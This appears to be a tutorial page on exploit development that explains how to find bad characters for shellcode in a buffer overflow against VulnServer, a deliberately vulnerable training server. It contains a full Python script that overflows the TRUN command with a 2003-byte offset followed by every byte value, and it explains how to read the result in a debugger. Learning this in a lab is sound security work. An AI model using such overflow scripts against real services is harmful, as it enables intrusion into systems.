


Finding Bad Characters
When we generate a shellcode, we need to know what kind of chars are good for the shellcode or bad for the shellcode
We can run all hex chars through our program and see if any of them acts up:
By default, the no byte "x00" acts up.
We can search for more badchars online:
https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/


We need to modify the previous script and add the badchars:
(We can remove the \x00 value because is usually a badchar in most of programs)
badchars.py
#!/usr/bin/python
import sys, socket
badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
# We are sending A until the offset (2003), then 4 "B" to overwrite it + badchars
# In this care, we are looking if these chars are bad for our shellcode
offset = "A" * 2003 + "B" * 4 + badchars
try:
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.11.131',9999)) #Change with VulnServer IP Address
s.send(('TRUN /.:/' + offset))
s.close()
except:
print "Error connecting to server!!!"
sys.exit()
We can run the script:
This time we are interested in ESP (Highlightit ) and go in “Follow in Dump”




You can make the font bigger with Appearance, Font, OEM
There are no bad chars here.
Are you asking: How I can reconize where are bad chars?
Let's make an example where there are bad chars


As you can see, the B0 is substituting 04,05, 27,28, 44, 45, BE, BF, CC, CD.
So B0 in this case is a bad char.